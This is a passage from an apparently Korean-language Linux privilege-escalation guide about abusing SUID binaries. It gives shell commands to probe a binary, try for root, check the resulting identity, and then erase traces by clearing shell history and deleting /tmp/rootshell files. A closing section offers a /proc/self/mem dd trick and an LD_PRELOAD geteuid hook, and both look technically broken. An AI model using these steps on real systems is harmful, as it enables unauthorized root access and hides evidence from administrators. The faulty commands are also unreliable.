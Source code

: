 ### 2. 주목할만한 바이너리 확인

```bash
ls -la /path/to/suspicious_binary
file /path/to/suspicious_binary
```

### 3. 취약점 분석

```bash
strings /path/to/suspicious_binary | grep -i "system\|exec\|sh"
strace -f /path/to/suspicious_binary 2>&1 | grep -i "exec"
```

### 4. 권한 상승 시도

위에서 파악된 방법에 따라 해당 바이너리에 적합한 기법 선택하여 시도

### 5. 권한 검증

```bash
id       # 현재 사용자 ID 확인
whoami   # 현재 사용자 확인
```

### 6. 흔적 제거

```bash
export HISTSIZE=0
history -c
rm -f /tmp/rootshell* 2>/dev/null
```

## 7. 놓치기 쉬운 SUID 기법

### /proc 파일시스템 활용

```bash
# /proc/자가메모리맵 이용해 바이너리 수정
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
dd if=/proc/self/mem of=/tmp/bash bs=1 seek=$(grep -a -b -o /bin/sh /proc/self/mem | head -n 1 | cut -d: -f1) count=7 conv=notrunc
/tmp/bash -p
```

### 커스텀 라이브러리 인젝션

```bash
# 특정 함수를 후킹하는 라이브러리 생성
cat > hook.c << EOF
int geteuid() { return 0; }
EOF
gcc -fPIC -shared hook.c -o hook.so -nostartfiles
LD_PRELOAD=./hook.so /path/to/vulnerable_binary
```
